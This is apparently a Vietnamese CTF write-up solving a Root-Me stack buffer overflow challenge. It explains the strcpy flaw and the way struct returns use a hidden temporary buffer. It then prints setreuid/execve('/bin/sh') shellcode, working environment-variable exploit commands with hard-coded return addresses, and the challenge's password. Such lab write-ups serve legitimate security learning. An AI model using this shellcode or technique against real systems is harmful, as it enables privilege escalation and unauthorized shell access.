





# ELF x86 - Stack buffer overflow basic 4

```c
int main(void)
{
  struct EnvInfo env;
   
  printf("[+] Getting env...\n");
  env = GetEnv();
   
  printf("HOME     = %s\n", env.home);
  printf("USERNAME = %s\n", env.username);
  printf("SHELL    = %s\n", env.shell);
  printf("PATH     = %s\n", env.path);
   
  return 0;  
}
```

Cấu trúc chương trình rất đơn giản, tạo ra biến `env = GetEnv()`

Đây là `struct EnvInfo`

```c
struct EnvInfo
{
  char home[128];
  char username[128];
  char shell[128];  
  char path[128];  
};
```

Chúng ta đến với hàm `GetEnv()`

```c
struct EnvInfo GetEnv(void)
{
  struct EnvInfo env;
  char *ptr;
   
  if((ptr = getenv("HOME")) == NULL)
    {
      printf("[-] Can't find HOME.\n");
      exit(0);
    }
  strcpy(env.home, ptr);
  if((ptr = getenv("USERNAME")) == NULL)
    {
      printf("[-] Can't find USERNAME.\n");
      exit(0);
    }
  strcpy(env.username, ptr);
  if((ptr = getenv("SHELL")) == NULL)
    {
      printf("[-] Can't find SHELL.\n");
      exit(0);
    }
  strcpy(env.shell, ptr);
  if((ptr = getenv("PATH")) == NULL)
    {
      printf("[-] Can't find PATH.\n");
      exit(0);
    }
  strcpy(env.path, ptr);
  return env;
}
```

Chương trình gọi hàm `strcpy` với 4 giá trị từ `environment` vào `struct EnvInfo`, điều này gây ra lỗi buffer overflow. Chương trình ko bật cơ chế bảo vệ nào vì vậy có rất nhiều cách tấn công buffer overflow. Chúng ta có thể dùng ret2libc hoặc shellcode là 2 kiểu cơ bản nhất. Tuy nhiên ở đây trước khi lấy shell ta cần gọi syscall `setreuid` nhằm thay đổi sid để đọc được file `.passwd`. Vì file `.passwd` chỉ cho phép đọc nếu user là `root` hoặc `app-systeme-ch8-cracked`. Vì thế ở đây mình chọn cách dùng shellcode.



Như vậy kế hoạch sẽ là ghi shellcode vào 1 trong 4 biến môi trường ta copy vào trong biến env, rồi đè địa chỉ trả về lên đó để return về shellcode. Chương trình không bật aslr vì thế chúng ta có thể xem trực tiếp địa chỉ bằng gdb, tuy nhiên khi tấn công thì môi trường chạy ở gdb và môi trường chạy bên ngoài lại có sự khác biệt. Mình không rõ tại sao lại vậy, cơ bản là địa chỉ chúng ta tìm thấy bằng gdb không trùng với địa chỉ thật lúc chạy, cho dù đã mình đã dùng một số trick để xử lí.

Vì vậy chúng ta sẽ đổi cách tấn công một chút, lợi dụng cơ chế xử lí của chương trình khi trả về một struct. Hàm `GetEnv` trả về một `struct EnvInfo` chứ không phải một con trỏ đến `struct EnvInfo`, vì thế nó có chút sự khác biệt ở cơ chế trả về. Mình phát hiện điều này khi mình code assembly khi chương trình gọi hàm `GetEnv()`.



Đây là code xử lí của chương trình khi gọi hàm GetEnv. Và bên trong hàm GetEnv trước khi return.



Mình sẽ giải thích một chút cơ chế thế này, trước khi gọi hàm `GetEnv`, chương trình `push` địa chỉ `ebp – 0x418` làm tham số của hàm, mặc dù trên code hàm `GetEnv` không có tham số nào cả, và hàm `main` chỉ có 1 `struct EnvInfo` tuy nhiên chương trình lại tạo ra một khoảng bộ nhớ đủ cho 2 `struct EnvInfo`??? Lí do cho điều này là khi `struct EnvInfo` được tạo ra ở trong hàm `GetEnv()` và được trả về cho hàm `main`, chương trình dùng câu lệnh `rep movs DWORD PTR es:[edi], DWORD PTR ds:[esi]` để copy struct ta tạo ở hàm `GenEnv` vào địa chỉ đặt tại `ebp + 0x8`, tức là giá trị ta đưa vào trước khi gọi `main`, rồi tiếp tục copy từ đó vào địa chỉ thực của biến `env` trong hàm `main`. Chúng ta có thể viết mã giả như sau:

```c
main() {
	Tạo struct env thật;
	Tạo struct env ảo;
	Đưa địa chỉ struct env ảo vào tham số thứ nhất và gọi GetEnv();
	Copy struct env ảo vào struct struct env thật;
}
GetEnv() {
	Tạo struct env;
	Lấy địa chỉ struct env ảo của hàm main ở ebp + 0x8 và copy struct env vào struct env ảo ở hàm main;
}
```

Đại khái là khi hàm con trả về một struct, chương trình copy struct ra một vùng nhớ tạm khác rồi khi về lại hàm cha, tiến hành copy lại struct từ vùng nhớ tạm vào biến trên hàm main. Địa chỉ vùng nhớ tạm được copy được hàm cha đặt là tham số đầu tiên của hàm.

Như vậy ta sẽ đổi cách tấn công một chút, thay vì ta đè return address lên địa chỉ shellcode là biến `struct env` ở hàm `main`, ta có thể sửa `return address` và địa chỉ vùng nhớ tạm tại `ebp + 0x8` giống nhau. Như vậy chương trình sẽ copy struct ra một vùng nhớ trên stack và return về đó luôn, đảm bảo chính xác.

Mình viết một đoạn shellcode nhằm gọi `setreuid(1208, 1108)` để đổi user và gọi `execve(“/bin/sh”, 0, 0)` để lấy shell.

```assembly
section .text
	global _start:

_start:
	xor edx, edx
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	mov bx, 1208
	mov cx, 1108
	mov al, 0x46
	int 0x80	

	xor eax, eax
	xor ecx, ecx
	push eax
	push 0x68732f2f
	push 0x6e69622f
	push esp
	pop ebx
	mov al, 0xb
	int 0x80
```

Cuối cùng là đặt chúng vào 1 trong 4 biến môi trường và return. Trong 4 biến thì chỉ có `USERNAME` là chưa có giá trị sẵn, vì vậy mình sẽ đặt shellcode vào biến `USERNAME`, và đè return address về địa chỉ struct ENV ảo + 0x80 (vị trí của `env.username`). Biến `PATH` là biến cuối cùng để overflow vì thế chắc chắn sẽ phải thay đổi, mình sẽ không sửa toàn bộ mà chỉ thêm vào phía sau để đảm bảo chương trình không bị ảnh hưởng. Vị trí của biến PATH là `ebp - 0x21c + 0x180 = ebp – 0x9c`. Địa chỉ của struct ENV ảo có thể là bất kì vùng nhớ nào có quyền read, mình debug gdb và lấy luôn giá trị cũ cho chắc cú.



Exploit:

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/opt/tools/checksec/`python2 -c "print 'A' * 41 + '\x70\xf6\xff\xbf' + '\xf0\xf5\xff\xbf'"`
```

```bash
export USERNAME=`python2 -c "print '\x90' * 80 + '\x31\xd2\x31\xc0\x31\xdb\x31\xc9\x66\xbb\xb8\x04\x66\xb9\x54\x04\xb0\x46\xcd\x80\x31\xc0\x31\xc9\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\xb0\x0b\xcd\x80'"`
```



password là: `s2$srAkdAq18q`


